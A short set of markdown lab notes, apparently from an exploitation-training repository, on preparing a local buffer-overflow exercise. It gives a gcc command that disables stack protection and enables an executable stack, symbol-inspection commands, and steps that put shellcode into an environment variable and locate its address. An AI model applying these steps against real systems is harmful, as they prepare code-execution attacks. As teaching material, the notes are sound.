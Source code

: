 ## Compiling 02_info_ptr.c without runtime bufferoverflow detection enabled

```
gcc -O2 -D_FORTIFY_SOURCE=0 -fno-stack-protector -z execstack 02_info_ptr.c -o 02_info_ptr
```

## View Symbol Table
```
readelf -s 02_vuln_func_ptr
nm 02_vuln_func_ptr
objdump -S 02_vuln_func_ptr
```

## Loading SHELLCODE into environment variable
```
export SHELLCODE=$(perl gen-payload.pl)
echo $SHELLCODE
```

## Get Environment Variable location compared to executable name
```
./getenvaddr  SHELLCODE ./prog
```
